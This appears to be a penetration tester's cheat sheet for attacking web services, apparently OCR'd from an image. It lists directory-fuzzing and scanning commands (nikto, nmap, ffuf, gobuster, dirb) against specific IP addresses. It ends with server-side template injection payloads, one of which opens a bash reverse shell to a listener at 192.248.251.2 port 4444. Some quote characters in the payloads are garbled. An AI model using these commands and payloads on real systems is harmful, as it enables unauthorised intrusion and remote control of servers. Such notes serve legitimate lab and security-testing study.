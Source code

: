 ```yaml
---
  title: "HTTP"
---
```

nikto -host

Port and service scanning
nmap -sV --script=http-enum 192.168.120.62

curl -v http://192.168.120.62:8000


FUZZING
ffuf -w /usr/share/wordlists/dirb/common.txt -u "http://147.102.33.187/FUZZ"
gobuster dir --url 10.129.227.155 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
gobuster dir -u http://10.10.11.100/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 30 -x php

dirb http://192.168.120.62:8000


HTTP Methodology

- identify http port
- identify services version
- identify stack (wordpress, joumla etc.)


Check if web app is vulnerable to Server-Side Template Injection
URL: 192.248.251.3:8000/{{7*’7'}}
SSTI Payload: {{config.__class__.__init__.__globals__[‘os’].popen(‘ls’).read()}}
SSTI Payload: {{config.__class__.__init__.__globals__[‘os’].popen(“bash -c ‘bash -i >& /dev/tcp/192.248.251.2/4444 0>&1’”).read()}}

xsser tool
